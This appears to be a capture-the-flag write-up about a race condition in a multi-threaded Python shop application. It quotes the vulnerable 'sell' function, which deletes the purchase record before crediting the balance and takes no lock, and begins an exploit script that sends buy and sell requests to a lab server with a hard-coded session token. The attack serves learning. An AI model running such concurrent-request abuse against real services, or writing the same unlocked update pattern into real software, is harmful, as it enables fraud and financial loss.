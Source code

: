 The vulnerability in this application only presents itself due to the fact that it is mutli-threaded. Had it been single threaded, we would have no race condition. This multi threaded application uses a shared resource without any locking (or similar) mechanisms for the shared resource. Let's have a look at the `sell` function.

```py
@db.connection_context()
def sell(token: str, purchase_id: int) -> (bool, str):

    purchase_history_objs = PurchaseLog.select().where(PurchaseLog.id == purchase_id)
    if len(purchase_history_objs) == 0: return False, "Product does not exist"

    purchase_history_obj = purchase_history_objs[0]
    user_objs = User.select().where(User.token == token)

    if len(user_objs) == 0: return False, "Invalid User Token"

    user_obj = user_objs[0]
    if purchase_history_obj.user_id != user_obj.id: return False, "You did not make this purchase"

    # We could have a more complex table... or we can just delete the log -_-
    PurchaseLog.delete().where(PurchaseLog.id == purchase_history_obj.id).execute()

    User.update(balance=user_obj.balance + purchase_history_obj.paid_amount) \
        .where(User.id == user_obj.id) \
        .execute()

    return True, ""
```

We can see that the item is sold before the users balance is updated. Had the application been single threaded this would not be a problem, as nothing would use the shared resource in between requests, however it is multi threaded meaning different threads may alter the shared resource without alerting the other threads. This presents us with a race condition, due to the time between the item being sold and the balance being updated, that an adversary could make an unexpected change.

### Exploitation

To exploit this, we can write a Python script to automate the process of sending buy and sell requests. We want to send significantly more sell requests than buys, and hopefully this will cause the application to sell 2+ of the same item, giving us (at least) twice the amount of money than the products value.

I grabbed the session token and hard coded that into my script, then Python's threading module to barrage the web server will sell requests, while occasionally sending a buy request. 


```py
#!/bin/python3
from requests import post, get
import threading
from time import sleep

token = "ae889bdb-20e8-42f5-af0f-c96d4e3d8074"
url = "http://172.20.0.2:5000"

def buy(token):
  return post(f"{url}/buy/1", cookies={"token": token})

def sell(token):
  id = find_id(token)
  return post(f"{url}/sell/{id}", cookies={"token": token})
  
def find_id(token):
  body = get(url, cookies={"token": token}).text
  return body.split("<form action=\"/sell/")[1].split("\" method=\"post\">")[0] 

```